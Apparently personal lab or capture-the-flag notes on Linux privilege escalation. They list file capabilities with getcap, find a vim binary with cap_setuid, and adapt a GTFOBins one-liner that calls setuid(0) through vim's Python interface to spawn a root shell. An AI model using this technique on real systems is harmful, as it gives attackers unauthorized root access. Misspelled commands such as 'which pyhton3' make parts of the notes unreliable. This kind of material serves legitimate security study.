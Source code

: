 lsit all enabled capabiliites
> getcap -r / 2>/dev/null

- when ran as unprivilaged user - will generate a massive amount of errors, so best practice to always include 2>/dev/null

- the output to identify caps that reflect
 - '/home/user/vim = cap+setuid+ep'

- in the above vim is the targeted system on the users box
- finding the capability on gtfobins it shows a pythong script

to find the pythong script on target machine
> which python
 - no output
 > which python2
 - no output
 > which pyhton3
 /usr/bin/pyhton3

 - which tells us to change the gtfobins script to :py3 per the directions - the script will look like:
> ./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
> whoami
root